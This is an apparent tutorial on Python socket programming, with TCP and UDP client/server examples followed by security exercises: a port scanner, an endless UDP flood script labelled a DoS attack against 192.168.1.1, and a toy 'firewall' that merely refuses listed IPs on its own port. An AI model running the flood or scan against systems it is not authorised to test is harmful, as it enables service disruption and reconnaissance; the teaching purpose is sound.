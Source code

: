 ### Introduction to Socket Programming in Python

Socket programming is the foundation of networking in software development. It allows programs to communicate with each other over a network, making it possible to create networked applications like web browsers, email clients, and multiplayer games.

#### **What is a Socket?**
A socket is an endpoint for sending and receiving data. It’s a combination of an IP address and a port number. Sockets can communicate within the same machine or across different machines over the network.

#### **Types of Sockets:**
- **Stream Sockets (TCP)**: These provide reliable, two-way, connection-based communication.
- **Datagram Sockets (UDP)**: These provide connectionless communication with no guarantee of delivery.

Python’s `socket` library provides a low-level interface for socket programming.

#### **Basic Concepts:**
- **IP Address**: A unique identifier for a device on a network.
- **Port**: A number used to identify specific processes or services on a device.
- **TCP (Transmission Control Protocol)**: A connection-oriented protocol ensuring reliable communication.
- **UDP (User Datagram Protocol)**: A connectionless protocol, faster but less reliable.

### Creating TCP/IP and UDP Clients and Servers

#### **TCP Client-Server Communication**

**TCP Server Example:**

```python
import socket

def start_tcp_server():
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_socket.bind(('localhost', 8080))
    server_socket.listen(5)
    print("TCP Server listening on port 8080")

    while True:
        client_socket, client_address = server_socket.accept()
        print(f"Connection established with {client_address}")
        client_socket.send(b'Hello from TCP Server!')
        client_socket.close()

if __name__ == "__main__":
    start_tcp_server()
```

**TCP Client Example:**

```python
import socket

def start_tcp_client():
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client_socket.connect(('localhost', 8080))
    message = client_socket.recv(1024)
    print(f"Received from server: {message.decode()}")
    client_socket.close()

if __name__ == "__main__":
    start_tcp_client()
```

#### **UDP Client-Server Communication**

**UDP Server Example:**

```python
import socket

def start_udp_server():
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    server_socket.bind(('localhost', 9090))
    print("UDP Server listening on port 9090")

    while True:
        message, client_address = server_socket.recvfrom(1024)
        print(f"Message from {client_address}: {message.decode()}")
        server_socket.sendto(b'Hello from UDP Server!', client_address)

if __name__ == "__main__":
    start_udp_server()
```

**UDP Client Example:**

```python
import socket

def start_udp_client():
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    client_socket.sendto(b'Hello UDP Server!', ('localhost', 9090))
    message, server_address = client_socket.recvfrom(1024)
    print(f"Received from server: {message.decode()}")
    client_socket.close()

if __name__ == "__main__":
    start_udp_client()
```

### Practical Exercises on Network Security

Here are some practical exercises you can try to apply socket programming in network security contexts:

#### **Exercise 1: Port Scanning**

Create a Python script to scan open ports on a target machine. This exercise teaches how to identify potential entry points in a network.

**Port Scanning Script:**

```python
import socket

def scan_ports(target_ip):
    print(f"Scanning {target_ip} for open ports...")
    open_ports = []
    for port in range(1, 1025):
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(1)
        result = sock.connect_ex((target_ip, port))
        if result == 0:
            open_ports.append(port)
        sock.close()
    return open_ports

if __name__ == "__main__":
    target_ip = '192.168.1.1'
    open_ports = scan_ports(target_ip)
    print(f"Open ports on {target_ip}: {open_ports}")
```

**Scenario:**  
You are tasked with auditing a company's internal network. You can use this script to identify which ports are open on the network devices and determine if any unnecessary services are running that could be potential security risks.

#### **Exercise 2: Simple DoS Attack Simulation**

Simulate a basic Denial of Service (DoS) attack by overwhelming a server with requests. This exercise teaches the importance of protecting servers from such attacks.

**DoS Attack Script:**

```python
import socket

def dos_attack(target_ip, target_port):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    message = b'DoS attack!'
    while True:
        sock.sendto(message, (target_ip, target_port))

if __name__ == "__main__":
    target_ip = '192.168.1.1'
    target_port = 80
    dos_attack(target_ip, target_port)
```

**Scenario:**  
You want to test how well a server can handle excessive traffic. Running this script (in a controlled environment) can help you understand how servers might react to such attacks and develop mitigation strategies.

**Important:** Only perform DoS attacks on systems you own or have explicit permission to test. Unauthorized attacks are illegal and unethical.

#### **Exercise 3: Building a Simple Firewall**

Use Python to create a basic firewall that monitors incoming traffic and blocks unwanted connections. This exercise highlights how firewalls protect against unauthorized access.

**Simple Firewall Script:**

```python
import socket

def simple_firewall(blocked_ips):
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_socket.bind(('localhost', 8080))
    server_socket.listen(5)
    print("Firewall active and listening on port 8080")

    while True:
        client_socket, client_address = server_socket.accept()
        if client_address[0] in blocked_ips:
            print(f"Blocked connection attempt from {client_address[0]}")
            client_socket.close()
        else:
            print(f"Accepted connection from {client_address[0]}")
            client_socket.send(b'You are connected to the server!')
            client_socket.close()

if __name__ == "__main__":
    blocked_ips = ['192.168.1.100', '192.168.1.101']
    simple_firewall(blocked_ips)
```

**Scenario:**  
Imagine you’re an administrator responsible for securing a small network. This script can help you control which IP addresses are allowed to connect to your server, blocking any IPs you deem suspicious or unwanted.

### Conclusion

Socket programming in Python is essential for developing networked applications, and it lays the groundwork for understanding network security. By creating TCP/IP and UDP clients and servers, you gain practical experience in how different protocols work. Engaging in practical network security exercises helps you apply this knowledge in real-world scenarios, such as penetration testing and network defense.
